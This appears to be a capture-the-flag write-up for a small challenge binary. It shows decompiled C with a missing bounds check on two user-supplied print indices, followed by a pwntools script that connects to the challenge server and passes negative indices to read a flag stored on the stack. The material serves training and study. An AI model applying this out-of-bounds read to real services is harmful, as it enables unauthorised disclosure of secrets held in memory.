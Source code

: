 Unforunately, the program fails to check if the second index given as input is within the bounds of the s```char``` array and allows us to see the flag that is read in at the beginning of the program.
```
00001209  int32_t main(int32_t argc, char** argv, char** envp)

00001218      void* fsbase
00001218      int64_t rax = *(fsbase + 0x28)
00001227      int64_t var_e8
00001227      __builtin_memset(s: var_e8, c: 0, n: 0x64)
000012e2      fgets(buf: &var_e8, n: 0x64, fp: fopen(filename: "flag.txt", mode: &data_2004))
000012e7      int64_t var_78
000012e7      __builtin_memset(s: var_78, c: 0, n: 0x64)
00001355      puts(str: "Input a string:")
0000136d      __isoc99_scanf(format: &data_201f, &var_78)
00001379      puts(str: "Input a first index:")
00001394      int32_t var_fc
00001394      __isoc99_scanf(format: &data_2037, &var_fc)
000013a0      puts(str: "Input a second index:")
000013bb      int32_t var_f8
000013bb      __isoc99_scanf(format: &data_2037, &var_f8)
000013da      printf(format: "%d %d\n", zx.q(var_fc), zx.q(var_f8))
00001417      for (int32_t var_f4 = var_fc; var_f4 s< var_f8; var_f4 = var_f4 + 1)
000013ff          putchar(c: sx.d(*(&var_78 + sx.q(var_f4))))
0000141e      putchar(c: 0xa)
00001435      if (rax == *(fsbase + 0x28))
0000143d          return 0
00001437      __stack_chk_fail()
00001437      noreturn
```

All we need to do is input a sufficiently large second index and we can read the flag right off the stack. By looking at the disassembly, we see that our input is at address ```rbp-0x70``` and the flag is at address ```ebp-0xe0```. Our flag is actually below our input on the stack by 112 bytes, so we need to use some negative index magic to get us the flag.
```python
#!/usr/bin/env python3

from pwn import *

p = remote('forever.isss.io', 1301)

payload1 = b'qwerty'
payload2 = b'-112'
payload3 = b'-70'

p.recvline()
p.sendline(payload1)
p.recvline()
p.sendline(payload2)
p.recvline()
p.sendline(payload3)

out_buf = p.recvall()
print(f"The output is {len(out_buf)} chars long")
print("Type: " + str(type(out_buf[1])))
flag_buf = ""
for i in range(len(out_buf)):
    if int(out_buf[i]) <= 125 and int(out_buf[i]) >= 33:
        flag_buf += chr(out_buf[i])
    else:
        flag_buf += '.'

print(flag_buf)
p.interactive()
```